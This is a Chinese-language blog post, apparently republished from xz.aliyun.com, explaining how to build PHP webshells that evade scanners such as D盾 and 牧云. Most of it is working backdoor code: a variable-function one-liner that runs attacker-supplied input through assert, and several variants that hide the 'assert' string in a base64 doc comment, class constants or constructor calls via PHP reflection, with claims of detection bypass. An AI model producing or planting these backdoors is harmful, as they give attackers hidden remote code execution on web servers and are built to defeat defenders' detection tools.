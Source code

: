 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/8684)

`webshell`对于渗透测试者来说是既是一种结束也是一种开始；一个免杀的`webshell`是我们在渗透测试过程中能否拿到目标权限的一个 “前提”，首先 webshell 需要存活，其次是否能够执行命令，最后我们使用 webshell 管理工具时流量是否被拦截。所以免杀至关重要。  

很奇怪，我学习安全接触的的第一个一句话木马就是它：`$_GET[1]($_POST[2]);`，并且令我印象深刻。当时不太理解这个是因为 PHP 太灵活了，没想到还有这种写法：

这个木马和上面的例子一样，是一种可变函数，`$_GET[1]`写为字符串`assert`，`$_POST[2]`写为命令`phpinfo()`。

*   值得一提的是 assert 和 eval：  
    手册写到 eval() 不是一个函数而是一个语言构造器，所以不能被可变函数调用；eval() 把字符串按照 PHP 代码来计算。该字符串必须是合法的 PHP 代码，**且必须以分号结尾**。  
    而 assert() 是一个函数，所以它相比 eval 灵活许多，可以被可变函数调用，也可以被回调函数来调用。  
    ## 思考  
    我们通过 webshell 执行命令，是通过我们可控的参数来达到目的，而上面的一句话木马我们可控的部分为 POST 和 GET 参数。只要稍作改变就可以绕过 D 盾的检测
    
    ```
    <?php
    foreach (array('_GET') as $_request) {
      foreach ($$_request as $_key=>$_value) {
          $$_key =  $_value;
          $_key($_value);
      }
    }
    ```
    
    [![](https://img-blog.csdnimg.cn/20200818233405224.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)](https://img-blog.csdnimg.cn/20200818233405224.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)
    
*   可以看到这里并没有达到免杀效果
    

[![](https://img-blog.csdnimg.cn/20200818233412362.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)](https://img-blog.csdnimg.cn/20200818233412362.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

*   接下来我又写了一个正常的类与函数，再次扫描发现 D 盾已经检测不出来了

[![](https://img-blog.csdnimg.cn/2020081823315525.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)](https://img-blog.csdnimg.cn/2020081823315525.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

从可变函数的例子我们可以受到一些启发，通过翻阅 PHP 手册中的**反射**部分，我们可以得到一些可以利用的函数

获取注释
----

PHP 中有这样一个函数，它可以获取 php 注释的内容  
`public ReflectionClass::getDocComment( void) : string`  
某些查杀引擎在查杀的时候，会做类似于编译器的优化，去掉我们所写的注释。毕竟注释是不能运行的，如果我们将参数通过非常规的方式传输进来，这样或许可以绕过一些查杀引擎呢。我们知道，安全狗查形，D 盾查参，就拿 D 盾来试一试。

```
<?php

/**
* YXNzZXJ0YWE=
*/
class Example
{
    public function fn()
    {
    }
}

$reflector = new ReflectionClass('Example');

$zhushi = substr(($reflector->getDocComment()), 7, 12);
$zhushi = base64_decode($zhushi);
$zhushi = substr($zhushi, 0, 6);
//
foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
        print_r($$_request);
    }
}
$zhushi($_value);
```

[![](https://img-blog.csdnimg.cn/20200818233204122.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)](https://img-blog.csdnimg.cn/20200818233204122.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

获取定义过的一个常量
----------

`public ReflectionClass::getConstants(void) : array`  
获取某个类的全部已定义的常量，不管可见性如何定义。

```
class Test
{
    const a = 'As';
    const b = 'se';
    const c = 'rt';

    public function __construct()
    {
    }
}
$para1;
$para2;
$reflector = new ReflectionClass('Test');

for ($i=97; $i <= 99; $i++) {
    $para1 = $reflector->getConstant(chr($i));
    $para2.=$para1;
}

foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
    }
}

$para2($_value);
```

[![](https://img-blog.csdnimg.cn/2020081823321410.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)](https://img-blog.csdnimg.cn/2020081823321410.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

获取一组常量
------

`public ReflectionClass::getConstants(void) : array`  
获取某个类的全部已定义的常量，不管可见性如何定义。

```
<?php

class Test
{
    const a = array(1=>'aS',2=>'se',3=>'rT');

    public function __construct()
    {
    }
}

$refl = new ReflectionClass('Test');

foreach ($refl->getConstants() as $key => $value) {
    foreach ($value as $key => $value1) {
        $value2.=$value1;
    }
}
foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
    }
}
$value2($_value);
```

[![](https://img-blog.csdnimg.cn/20200818233230823.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)](https://img-blog.csdnimg.cn/20200818233230823.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

类与继承
----

P 牛的《PHP 动态特性的捕捉与逃逸》中提到了一个点，

[![](https://img-blog.csdnimg.cn/20200818233245323.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)](https://img-blog.csdnimg.cn/20200818233245323.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3poYW5nY2hlbnNvbmcxNjg=,size_16,color_FFFFFF,t_70#pic_center)

除了 PPT 里提到的 trick，还能想到什么呢？

*   面向对象中，类能够继承类的属性与方法。或许可以从这两个点入手，因为测试绕过了 "牧云"，就暂时不放出来结果了。  
    至于为什么可以绕过：我的猜想是这个函数不在黑名单中，语法分析不够完善，引擎认为我们的 vuln 代码并不能执行。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201219173741-d6c24808-41dd-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20201219173741-d6c24808-41dd-1.gif)

创建类的实例
------

`public ReflectionClass::newInstance( mixed $args[, mixed $...] ) : object`  
简单地说，这个方法可以创建一个类的实例，同时该函数传递的参数会传递到该类的构造函数  
需要注意的是，该方法传参和`call_user_func()`相似，不能使用引用类型传参，如果要使用引用类型使用另一个方法`newInstanceArgs`

```
class Test1
{
    public function __construct($para)
    {
        //assert
    }
}

$class1 = new ReflectionClass("Test1");
$para = '';
//可控的$para
$class2 = $class1->newInstance($para);
```

基本的框架就是这样了，对框架进行变形也可绕过 "牧云"。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201219173741-d71c2a30-41dd-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20201219173741-d71c2a30-41dd-1.gif)